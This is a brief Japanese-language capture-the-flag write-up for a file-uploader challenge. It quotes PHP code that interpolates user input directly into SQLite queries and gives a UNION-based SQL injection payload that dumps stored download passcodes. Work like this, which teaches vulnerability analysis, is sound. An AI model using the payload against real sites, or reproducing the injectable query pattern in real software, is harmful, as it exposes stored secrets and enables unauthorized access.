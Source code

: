 ## uploader

ファイルアップローダのURLとソースが与えられる.
WebサイトにはFLAGだと予想されるsecret_fileがアップロードされている.
ただしファイルをダウンロードするためにはダウンロードパスワードを入手しなければならない.

パスワードはファイルアップロード時にfilesテーブルに登録される.
であるからSQLiでfilesテーブルからpasscodeカラムを読み取れば良い.
```
$db->exec("INSERT INTO files(name, passcode) VALUES ('$filename', '{$_POST['passcode']}')");
```

以下の箇所は$_GET['search']を直接SQLに組み込んでいるのでSQLiを狙える.
```
// search
if (isset($_GET['search'])) {
    $rows = $db->query("SELECT name FROM files WHERE instr(name, '{$_GET['search']}') ORDER BY id DESC");
    foreach ($rows as $row) {
        $files []= $row[0];
    }
}
```

以下のような文字列を与えれば良い.
```
') UNION SELECT passcode from files; --
```

その結果passcodeの結果を画面に出力するSQLが完成する.
```
SELECT name FROM files WHERE instr(name, '') UNION SELECT passcode from files; --') ORDER BY id DESC
```